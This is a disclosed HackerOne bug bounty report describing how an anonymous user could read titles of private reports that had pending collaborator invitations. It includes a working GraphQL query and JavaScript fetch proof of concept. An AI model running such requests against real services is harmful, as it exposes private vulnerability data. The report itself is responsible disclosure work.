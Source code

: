 # View Titles of Private Reports with pending email invitation

## Report Details
- **Report ID**: 2312029
- **URL**: https://hackerone.com/reports/2312029
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-01-11T06:21:00.074Z
- **Disclosed**: 2024-01-16T09:17:25.182Z

## Reporter
- **Username**: ahacker1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**

If a private report has a pending email invitation for collaboration, an anonymous user can see the title of the report.
This only works for anonymous users, and the collaboration invitation must be through Manage Collaborators invitation panel.

**Description:**

### Steps To Reproduce

1. As victim:
In a report to a bug bounty program, add a collaborator, using any email, such as: ██████████
Save the integer ID of the report.

2. In a new, **anonymous/unauthenticated/logged-out** session:
Send GraphQL request, replacing PRIVATE_REPORT_ID integer:
```graphql
{
  report(id:IPRIVATE_REPORT_ID){
    title
  }
}
```
OR run JS implementation:
By visiting hackerone.com/hacktivity as anonymous:
```js
const csrf_token = document.getElementsByName("csrf-token")[0].getAttribute("content")
const REPORT_ID = PRIVATE_REPORT_ID // integer

var resp = await(await fetch("https://hackerone.com/graphql", {
  "headers": {
    "accept": "*/*",
    "content-type": "application/json",
    "x-csrf-token": csrf_token,
  },
  "body": JSON.stringify({
    "operationName": "HacktivitySearchQuery",
    "variables": {
        "reportId": REPORT_ID
    },
    "query": `query HacktivitySearchQuery($reportId: Int!) {
  report(id: $reportId){
    id
    url
    title
  }
}
`
}),
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
})).json()
console.log(resp.data.report)
```
The title of the report is the response, confirming the vulnerability.

## Impact

Can read titles of possibly unfixed reports. This can be leveraged against the program, depending on the specificity of the title in the report.

## Attachments
No attachments
